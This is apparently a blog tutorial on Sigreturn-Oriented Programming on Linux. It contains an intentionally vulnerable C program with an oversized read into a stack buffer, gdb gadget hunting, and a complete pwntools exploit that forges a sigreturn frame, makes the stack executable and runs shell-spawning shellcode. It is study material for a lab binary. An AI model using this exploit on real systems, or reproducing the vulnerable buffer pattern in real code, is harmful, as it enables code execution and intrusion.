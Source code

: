```yaml
---
title: "Sigreturn-Oriented Programming (SROP)"
tags: ["exploit", "srop", "linux"]
date: 2018-11-04T11:23:06+01:00
comments: true
draft: false
---
```


Sigreturn-oriented programming (SROP) is a exploit development technique used to execute code, this attack employs the same basic assumptions behind the return-oriented programming (ROP) technique.

### TL;DR
When a signal occurs, the kernel “pauses” the process’s execution in order to jump to a signal handler routine. In order to safely resume the execution after the handler, the context of that process is pushed/saved on the stack (registers, flags, instruction pointer, stack pointer etc). When the handler is finished, `sigreturn()` is being called which will restore the context of the process by popping the values off of the stack. That’s what is being exploited in that technique.

### Differences from ROP
SROP exploits are usually portable across different binaries with minimal or no effort and allow easily setting the contents of the registers, which could be non-trivial or unfeasible for ROP exploits if the needed gadgets are not present. Moreover, SROP requires a minimal number of gadgets (ROP) and allows constructing effective shellcodes by chaining system calls.

### Sigcontext Structure
The attack works by putting on the call stack a forged `sigcontext structure` and then overwriting the return address with the location of a gadget that allows the attacker to call the `sigreturn()`
{{< figure src="/img/Sigreturn-oriented-programming-SROP/sigcontext_structure.jpg" width="60%" >}}

>  The sigcontext structure length is 248 Bytes, ignore the first 8 Byte `rt_sigreturn()`

### Attacks

#### ROP Gadget
In order to achieve this attack we need first ROP gadgets to do :

```nasm
# x64
mov eax, 0x0f; syscall; ret

# x86
mov eax, 0x77; int 0x80; ret

```
#### Example : srop.c
This is our example to perform SROP attack.

```c
#include <stdio.h>
#include <stdlib.h>
// gcc srop.c -o srop -no-pie -fno-stack-protector
void syscall_(){
       __asm__("syscall; ret;");
}

void set_rax(){
       __asm__("movl $0xf, %eax; ret;");
}

int main(){
       // ONLY SROP!
       char buff[100];
       printf("Buff @%p, can you SROP?\n", buff);
       read(0, buff, 5000);
       return 0;
}
```
#### Finding The Crash
```shell
root@kali:~/srop# python -c 'print "A" * 120 + "BBBB"' | ./srop
Buff @0x7fff7f78eb30, can you SROP?
Segmentation fault

root@kali:~/srop# dmesg | tail
[  258.498005] IPv6: ADDRCONF(NETDEV_CHANGE): eth0: link becomes ready
[  264.546090] e1000: eth0 NIC Link is Down
[  268.579755] e1000: eth0 NIC Link is Up 1000 Mbps Full Duplex, Flow Control: None
[ 2196.793909] srop[2120]: segfault at 7f0a42424242 ip 00007f0a42424242 sp 00007fff7f78ebb0 error 14

```
As we can see the rip offset to overwrite will be at 120.

#### Finding Gadgets

```shell
root@kali:~/srop# gdb ./srop -q
Reading symbols from ./srop...(no debugging symbols found)...done.
gdb-peda$ disassemble syscall_
Dump of assembler code for function syscall_:
   0x0000000000401132 <+0>:     push   rbp
   0x0000000000401133 <+1>:     mov    rbp,rsp
   0x0000000000401136 <+4>:     syscall
   0x0000000000401138 <+6>:     ret    
   0x0000000000401139 <+7>:     nop
   0x000000000040113a <+8>:     pop    rbp
   0x000000000040113b <+9>:     ret    
End of assembler dump.
gdb-peda$ disassemble set_rax
Dump of assembler code for function set_rax:
   0x000000000040113c <+0>:     push   rbp
   0x000000000040113d <+1>:     mov    rbp,rsp
   0x0000000000401140 <+4>:     mov    eax,0xf
   0x0000000000401145 <+9>:     ret    
   0x0000000000401146 <+10>:    nop
   0x0000000000401147 <+11>:    pop    rbp
   0x0000000000401148 <+12>:    ret    
End of assembler dump.
gdb-peda$

```
As we can see we have what we want to setup the stack for Sigreturn() syscall.

#### Exploit
```python
#!/usr/bin/python
from pwn import *

context.clear(arch="amd64")
p = process("./srop")

# ENTRIES : ROP gadgets
syscall_ret = 0x0401136
mov_rax_15_ret = 0x0401140
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

# Leak
buff_leak = p.recv()
stack_leak = buff_leak[6:17] + "000"
stack_addr = int(stack_leak, 16)
shellcode_addr = int(buff_leak[6:20], 16)
p.info("Stack at : " + str(hex(stack_addr)))
p.info("Shellcode at : " + str(hex(shellcode_addr)))

# Exploit
payload = shellcode
payload += "A" * (120-len(shellcode))
payload += p64(mov_rax_15_ret)
payload += p64(syscall_ret)

frame = SigreturnFrame(kernel="amd64") # CREATING A SIGRETURN FRAME
frame.rax = 10 # MPROTECT SYSCALL
frame.rdi = stack_addr # base address
frame.rsi = 1000 # size
frame.rdx = 7 # SET RDX => RWX PERMISSION
frame.rsp = shellcode_addr + len(payload) + 248 # WHERE 248 IS SIZE OF FAKE FRAME!
frame.rip = syscall_ret # SET RIP TO SYSCALL ADDRESS
payload += str(frame)
payload += p64(shellcode_addr) # WHERE IT GOING TO RETURN ( shellcode )

# Sending Payload
p.sendline(payload)

p.interactive()
```


#### Download:
* [srop.zip](/files/Sigreturn-oriented-programming-SROP/srop.zip)

#### References:
* [wikipedia](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming)
* [0x00sec](https://0x00sec.org/t/srop-signals-you-say/2890)